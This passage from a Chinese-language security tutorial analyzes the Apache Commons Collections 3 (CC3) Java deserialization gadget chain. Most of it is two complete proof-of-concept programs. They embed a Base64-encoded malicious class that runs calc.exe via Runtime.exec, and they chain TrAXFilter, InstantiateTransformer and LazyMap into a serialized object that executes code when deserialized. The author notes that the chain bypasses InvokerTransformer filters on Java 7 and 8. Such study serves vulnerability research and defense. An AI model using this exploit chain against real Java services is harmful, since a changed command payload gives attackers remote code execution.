

其实这个类我在CC1链中也提过，该类同样重写了transform方法，在重写的transform方法中，它会先判断传入的input是否是Class类型的实例，然后获取其构造函数，最后利用获取到的构造函数创建实例。



iParamTypes和iArgs是我们可控的，所以我们可通过`Constructor con = ((Class) input).getConstructor(iParamTypes);`执行TrAXFilter类的构造方法，iParamTypes为构造函数传入的参数，而根据前面看到的构造方法参数类型为Templates类型的对象，获取了构造构造方法后再创建实例将我们恶意TemplatesImpl类带入执行TemplatesImpl.newTransformer()：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl, "_name", "b1uel0n3");
        setValue(Impl, "_class", null);
        setValue(Impl, "_bytecodes", new byte[][]{bytes});
        setValue(Impl, "_tfactory", new TransformerFactoryImpl());

        Constructor con = TrAXFilter.class.getConstructor(Templates.class);
        con.newInstance(Impl);
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
        Field field=obj.getClass().getDeclaredField(filedname);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```



能弹计算机，所以我们就根据这段代码改成ChainedTransformer调用链，即：

```
ConstantTransformer trAX=new ConstantTransformer(TrAXFilter.class);
InstantiateTransformer in=new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Impl});
Transformer[] transformers = new Transformer[]{trAX,in};
ChainedTransformer chaind=new ChainedTransformer(transformers);
```



能运行成功，所以修改最终poc，加上之前的链子前半部分：

CC6环境下：

CC3（HashSet）：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());

        Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};

        ConstantTransformer trAX=new ConstantTransformer(TrAXFilter.class);
        InstantiateTransformer in=new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Impl});
        Transformer[] transformers = new Transformer[]{trAX,in};
        ChainedTransformer chaind=new ChainedTransformer(transformers);

        Map innermap=new HashMap();
        Map Lazymap=LazyMap.decorate(innermap, chaind);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"b1uel0n3");
        HashSet map=new HashSet();
        map.add(tiedMapEntry);
        innermap.remove("b1uel0n3");

        Field field=chaind.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chaind,transformers);

        serialize(map);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
        Field field=obj.getClass().getDeclaredField(filedname);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```



CC6的HashMap和CC1版本下的poc修改是一样的，这里就不赘述了。

CC6版本下+TrAXFilter有个好处就是如果过滤了InvokerTransformer能用InstantiateTransformer绕过，且能通杀Java7、8版本。

以上就是本文全部内容，欢迎师傅们批评指正！感谢阅读！

## 参考

<https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections3.java>

<https://nivi4.notion.site/Java-CommonCollections3-6efcc82835764b3d9937feab2562abb9>

<https://www.cnblogs.com/nice0e3/p/13854098.html#0x03-cc3%E9%93%BE%E8%B0%83%E8%AF%95>

<https://www.cnblogs.com/1vxyz/p/17458691.html>

<https://www.freebuf.com/vuls/361100.html>
